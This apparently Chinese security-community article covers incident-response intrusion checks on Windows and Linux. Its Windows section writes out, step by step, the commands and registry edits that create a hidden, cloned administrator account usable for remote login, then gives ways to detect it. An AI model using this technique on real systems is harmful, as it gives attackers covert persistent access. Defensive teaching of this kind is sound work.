# 应急响应初探之入侵排查 - 先知社区

应急响应初探之入侵排查

- - -

# 应急响应之入侵排查

## 应急事件：

-   web入侵：网页挂马、主页篡改、Webshell
-   系统入侵：病毒木马、勒索软件、远控后门
-   网络攻击：DDOS攻击、DNS劫持、ARP欺骗

## Windows入侵排查：

### 检查系统账号安全：

#### 1\. 查看服务器是否存在可疑账号/新增账号

如果windows系统被入侵，我们首先要查看攻击者是否创建了账号进行了远程登录

```plain
打开 cmd 窗口，输入lusrmgr.msc命令，查看是否有新增/可疑的账号，查看管理员群组（Administrators）内是否进行了新增用户
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121100907-0f2be81e-b802-1.png)

#### 2\. 查看是否存在隐藏账号/克隆账号

**隐藏账号/克隆账号来源：**

-   我们在CMD命令行下，建立一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。

```plain
新建账户
>net user test$ abc123! /add
将账户提升为管理员权限
>net localgroup administrators test$ /add
```

-   这时候我们使用net user查看用户是无法看到我们新注册的这个隐藏账户的，只有在用户和组里面才能看到

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121100919-164d5eb6-b802-1.png)

-   然后我们打开注册表，进入`"HKEY_LOCAL_MACHINE\SAM\SAM"`，右键单击权限，将权限改为：administrator的用户给予完全控制以及读取的权限，然后关闭注册表编辑器，再次打开就可以看到里面的内容，在对应目录下我们可以看到我们用户的注册表内容，这里test$类型为0x3EA，对应的就是上面的000003EA目录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121100927-1ad0ebd8-b802-1.png)

-   找到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121100935-1fb1bb00-b802-1.png)

-   分别test$和000003EC导出到桌面，删除test$用户:net user test$ /del

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121100947-26bc4fe6-b802-1.png)

-   然后将两个reg文件导入注册表，我们在删除了用户之后，注册表中就不存在了，然后我们再将两个注册表文件导入，这样就只有注册表中存在我们这个用户：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101000-2e5d9412-b802-1.png)

-   然后我们再回到用户和组里面去找并发现不了这个账户：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101008-335abce2-b802-1.png)

-   注意：需将新创建的隐藏账户test$ 添加在允许远程桌面用户的位置，默认只允许 Administrator，不然隐藏账户 test$ 无法登录  
    远程登录隐藏账户 test$ 时，账户名是test$ 密码是abc123!

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101034-42e8fbb0-b802-1.png)

**应急方式：**

一.打开注册表(regedit/regedt32.exe)，查看管理员对应的键值，对比用户和组与注册表中的用户信息是否一致

二.使用D盾对克隆账号进行检测

#### 3\. 查看日志是否存在异常登录

```plain
Win+R打开运行，输入“eventvwr.msc”，打开“事件查看器”。导出Windows日志--安全，利用Log Parser进行分析。
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101053-4de9143c-b802-1.png)

### 检查异常端口、进程

#### 1\. 检查端口连接情况

-   `netstat -ano`查看目前的网络连接情况，定位可疑的`ESTABLISHED`
-   根据`netstat`定位出的`pid`，再通过`tasklist`命令进行进程定位`tasklist | findstr "PID"`或任务管理器--查看--选择列--PID
-   查看端口对应的PID： `netstat -ano | findstr "port"`
-   查看进程对应的程序位置：`任务管理器--选择对应进程--右键打开文件位置`/`运行输入 wmic，cmd界面 输入 process`
-   tasklist /svc 进程--PID--服务
-   查看Windows服务所对应的端口：`%system%/system32/drivers/etc/services`（一般%system%就是C:\\Windows）

#### 2\. 查看进程情况

-   cmd打开系统信息(msinfo32),`"软件环境"->"正在运行任务"`可以查看进程的详细信息(进程路径、进程ID、文件创建日期、启动时间)，查看可疑内容：

> 没有签名验证信息的进程（可以通过D盾\_web查杀工具，进程查看，关注没有签名信息的进程）  
> 没有描述信息的进程  
> 进程的属主  
> 进程的路径是否合法  
> CPU或内存资源占用长时间过高的进程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101108-56d90aac-b802-1.png)

### 检查启动项、计划任务、服务

#### 1\. 检查服务器是否有异常的启动项

-   【开始】>【所有程序】>【启动】，默认情况下此目录在是一个空目录，确认是否有非业务程序在该目录下。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101114-5a9a83e6-b802-1.png)

-   输入 msconfig，查看是否存在命名异常的启动项目，并查看项目的文件路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101122-5f64e70e-b802-1.png)

-   输入 regedit，打开注册表，查看开机启动项是否正常，注意下面三个注册表项，检查右侧是否有启动异常的项目

```plain
HKEY_CURRENT_USER\software\micorsoft\windows\currentversion\run HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Runonce
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101130-63f9df2c-b802-1.png)

d、组策略，运行gpedit.msc。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101136-6775ee8e-b802-1.png)

#### 2\. 检查计划任务

-   在控制面版中找到任务计划，查看计划任务属性，便可以发现木马文件的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101143-6c052fa0-b802-1.png)

-   在cmd中输入at，检查计算机与网络上的其它计算机之间的会话或计划任务，如有，则确认是否为正常连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101155-72cef262-b802-1.png)

#### 3\. 服务自启动

-   输入services.msc，注意服务状态和启动类型，检查是否有异常服务。

### 检查系统相关信息

#### 1.查看系统版本以及补丁信息

systeminfo，查看系统信息

#### 2\. 查找可疑目录及文件

-   查看用户目录，查看是否有新建用户目录。

```plain
Window 2003 : C:\Documents and Settings
 Window 2008R2 : C:\Users\
```

-   输入%UserProfile%\\Recent，分析最近打开分析可疑文件

#### 3.查看某一时间创建文件

发现恶意文件的创建时间，找出同一时间范围内创建的文件：

-   利用 Registry Workshop 注册表编辑器的搜索功能，找到最后写入时间区间的文件
-   利用自带文件搜索功能，指定修改时间

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101159-75b51ccc-b802-1.png)

## Linux入侵排查：

### 检查linux账号安全：

#### 用户信息文件

```plain
/etc/passwd
root:x:0:0:root:/root:/bin/bash
account:password:UID:GID:GECOS:directory:shell
用户名：密码：用户ID：组ID：用户说明：家目录：登陆之后shell


/etc/shadow
root:$6$oGs1PqhL2p3ZetrE$X7o7bzoouHQVSEmSgsYN5UD4.kMHx6qgbTqwNVC5oOAouXvcjQSt.Ft7ql1WpkopY0UV9ajBwUt1DpYxTCVvI/:16809:0:99999:7:::
用户名：加密密码：密码最后一次修改日期：两次密码的修改时间间隔：密码有效期：密码修改到期到的警告天数：密码过期之后的宽限天数：账号失效时间：保留
```

```plain
who     查看当前登录用户（tty本地登陆  pts远程登录）
w       查看系统信息，想知道某一时刻用户的行为
uptime  查看登陆多久、多少用户，负载
```

